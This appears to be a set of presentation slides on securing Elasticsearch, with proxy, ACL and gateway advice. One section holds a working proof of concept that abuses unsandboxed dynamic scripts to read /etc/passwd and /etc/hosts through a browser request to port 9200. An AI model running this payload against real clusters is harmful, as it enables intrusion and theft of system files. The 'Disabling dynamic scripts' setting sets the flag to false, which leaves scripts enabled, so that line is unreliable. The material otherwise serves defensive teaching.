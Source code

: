   ## Securing Elasticsearch


  ### Elasticsearch trusts you

  * There is no concept of a user
  * Out the box, systems that have access to port 9200 can basically do whatever they want
  * Do not allow direct access to port 9200


  ### Scripting

  * Elasticsearch provides robust scripting support
  * These scripts are *not* run in a sandbox
  * [Remote code execution is possible](http://blog.liftsecurity.io/2013/11/30/elasticsearch-command-execution-using-script)


  ### How to read a file system using dynamic scripts

  ```python
  read_file = (filename) ->
    """
    import java.io.File;
    import java.util.Scanner;
    new Scanner(new File("#{filename}")).useDelimiter("\\\\Z").next();
    """

  # This PoC assumes that there is at least one document stored in Elasticsearch, there are ways around that though
  $ ->
    payload = {
      "size": 1,
      "query": {
        "filtered": {
          "query": {
            "match_all": {
            }
          }
        }
      },
      "script_fields": {}
    }

    for filename in ["/etc/hosts", "/etc/passwd"]
      payload["script_fields"][filename] = {"script": read_file(filename)}

    $.getJSON "http://localhost:9200/_search?source=#{encodeURIComponent(JSON.stringify(payload))}&callback=?", (data) ->
      console.log(data)
      for hit in data["hits"]["hits"]
        for filename, contents of hit["fields"]
          document.write("<h2>#{filename}</h2>")
          for content in contents
            document.write("<pre>" + content + "</pre>")
          document.write("<hr>")
  ```


### Disabling dynamic scripts

```yaml
script.disable_dynamic: false
```


### Use preloaded scripts instead

```bash
$ cat config/scripts/scoring/recency_boost.mvel
(0.08 / ((3.16*pow(10,-11)) * abs(now - doc['timestamp'].date.getMillis()) + 0.05)) + 1.0
```

```json
{
  "script": "scoring_recency_boost",
  "params": {
    "now": 1386176910000
  }
}
 ```


### Segregate different tenants/users into separate indexes

* This allows you to create some high-level URL rules to eliminate cross-polination
* Some apis like multi-search, multi-get and bulk allow take indexes as URL parameters or in the request body
* Lock this down with `allow_explicit_index: false`


### Sample nginx proxy rules

```nginx
#
# Nginx proxy for Elasticsearch + Kibana
#
# In this setup, we are password protecting the saving of dashboards. You may
# wish to extend the password protection to all paths.
#
# Even though these paths are being called as the result of an ajax request, the
# browser will prompt for a username/password on the first request
#
# If you use this, you'll want to point config.js at http://FQDN:80/ instead of
# http://FQDN:9200
#
server {
  listen                *:80 ;

  server_name           kibana.myhost.org;
  access_log            /var/log/nginx/kibana.myhost.org.access.log;

  location / {
    root  /usr/share/kibana3;
    index  index.html  index.htm;
  }

  location ~ ^/_aliases$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_aliases$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/_nodes$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_search$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_mapping {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }

  # Password protected end points
  location ~ ^/kibana-int/dashboard/.*$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
    limit_except GET {
      proxy_pass http://127.0.0.1:9200;
      auth_basic "Restricted";
      auth_basic_user_file /etc/nginx/conf.d/kibana.myhost.org.htpasswd;
    }
  }
  location ~ ^/kibana-int/temp.*$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
    limit_except GET {
      proxy_pass http://127.0.0.1:9200;
      auth_basic "Restricted";
      auth_basic_user_file /etc/nginx/conf.d/kibana.myhost.org.htpasswd;
    }
  }
}
```


### Include ACLs in document body

```json
{
  "title": "Elasticsearch in Action",
  "price": 34.99,
  "visible_to_groups": [
    "spantree",
    "strangeloop"
  ],
  "visible_to_users": [
    "george_smith",
    "jane_jones"
  ]
}
```


### Use filter aliases to enforce ACLs

```json
curl -XPOST 'http://localhost:9200/_aliases' -d '{
  "actions": [
    {
      "add": {
        "index": "books",
        "alias": "books_visible_to_group_spantree",
        "filter": {
          "term": { "visible_to_group": "spantree" }
        }
      }
    }
  ]
}'
```


### For more complex requirements, consider a middle tier gateway app

* When you need things like field-level access policies, consider writing a gateway app
* Prefer to use asynchronous, non-blocking frameworks like [Node.js](http://nodejs.org/), [Ratpack](http://www.ratpack.io/) or [Frank](https://github.com/panesofglass/frank).


### Pseudocode for a gateway app

```coffee
http.createServer (req, res) ->
  # Authenticate and get user context
  userContext = authenticateAndGetUserContext(req)
  if userContext
    http.request "#{esRoot}/{req.path}", (esResponse, json) ->
      if not userContext.shouldPriceBeVisible
        delete json.price
      res.writeHead esResponse.head
      res.write json
      res.end()
  else
    res.writeHead 401, 'Unauthorized access'
```


### (Completely speculative) future security features

* Dynamic scripts running in a sandbox?
* Pluggable authentication (via CAS, JAAS, etc)?
* Document-level security?